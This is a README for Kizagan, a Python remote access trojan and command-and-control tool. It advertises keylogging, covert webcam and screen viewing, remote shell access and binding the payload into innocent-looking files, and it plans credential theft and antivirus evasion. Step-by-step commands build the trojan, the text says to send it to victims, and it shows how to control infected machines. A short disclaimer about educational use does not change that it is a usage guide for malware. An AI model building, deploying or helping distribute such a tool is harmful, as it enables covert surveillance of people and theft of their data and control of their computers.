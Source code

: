 # KIZAGAN

Kizagan is a RAT,C2 tool built with python.Kizagan can build executables and control infected machines.

![a](https://github.com/st4inl3s5/kizagan/assets/68844502/704332a0-e02c-43f2-b651-0cb6434e0610)

## Features

+ Basic file/directory commands.(rename, delete, create etc.)

+ Download/Upload files.

+ Execute shell/terminal commands directly.

+ Take victim snap screenshot.

+ Watch live screen stream.

+ Take victim camera snapshot.

+ Watch live victim camera.

+ Advanced keylogger.

+ Merge executable with an arbitrary file.

## FEAUTURES TO DO

+ Encrypted connection

+ Persistence

+ Wifi names and passwords

+ Browser datas

+ Applications to make FUD

+ GUI

+ Access microphone

## SETUP

Clone the project or download the zip file and extract it.

    git clone https://github.com/st4inl3s5/kizagan

To make setup, use the following command :

    pip install -r requirements.txt

## USAGE

Build an executable file with following command :

    python3 kizagan.py build -ip <control_server_ip> -p <control_server_port> -i <your_icon_file> -m <your_merge_file> -n <executable_name>

![1](https://github.com/st4inl3s5/kizagan/assets/68844502/1c2decaa-b261-4369-9678-e979c90e7323)

![2](https://github.com/st4inl3s5/kizagan/assets/68844502/0c97768c-4472-4fda-a32f-9c849f508a3c)

![3](https://github.com/st4inl3s5/kizagan/assets/68844502/9d57d907-38ac-4e60-8f31-19c18a973ed8)

![4](https://github.com/st4inl3s5/kizagan/assets/68844502/6fd39e46-11dd-48fb-9a59-90e725642f3d)

Send the executable file to victims.

Start the control server with following command :

    python3 kizagan.py control -ip <control_server_ip> -p <control_server_port>

![5](https://github.com/st4inl3s5/kizagan/assets/68844502/4add8899-0614-4cb3-a752-f3a8243620e9)

![6](https://github.com/st4inl3s5/kizagan/assets/68844502/9e806d43-e82e-48f3-b4c9-85a7420c5797)

Wait for the victims to open your executable.When a victims open your executable, victims will appear in terminal :

![7](https://github.com/st4inl3s5/kizagan/assets/68844502/d3c6c598-9603-4bc9-8e1c-36618210fe75)

Press CTRL+C to interact with a victim :

![8](https://github.com/st4inl3s5/kizagan/assets/68844502/a3cdb668-63ce-42ba-8ed1-e5fa18cebac9)

Type 'help' to view help menu.

![9](https://github.com/st4inl3s5/kizagan/assets/68844502/b3ef8efd-f11e-4d48-937f-c852b36f4c75)

## MOTIVATION

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/st4inl3s5)

My motivation to develop kizagan, your donations, improve my cyber and software knowledge.

## DISCLAIMER

This tool developed for educational and red team purposes.Don't use this tool for illegal purposes.I am not responsible for illegal actions.

So the kizagan under development, it can have bugs.Please report me the bugs you find.

## CONTACT

https://www.instagram.com/arduinocum.py/

https://t.me/+5XoMhXv4SghhYmE0
